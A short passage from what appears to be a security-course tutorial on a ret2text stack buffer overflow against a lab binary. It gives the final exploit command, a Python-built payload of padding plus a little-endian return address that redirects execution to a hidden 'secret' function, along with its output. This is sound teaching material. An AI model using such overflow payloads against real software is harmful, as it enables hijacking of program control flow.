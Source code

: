 ### Final solution :running:
Here is our complete exploit :

```console
admin@kali:~/SecurityClass/Tutorial-06/6.3$ ./ret2text $(python -c "print('\x90'*20 + '\xd0\x91\x04\x08')")
public
secret function
Segmentation fault
```

The segfault is expected since right after the execution of `secret` there is no more valid EIP on the stack so the address tried by the program will be invalid.

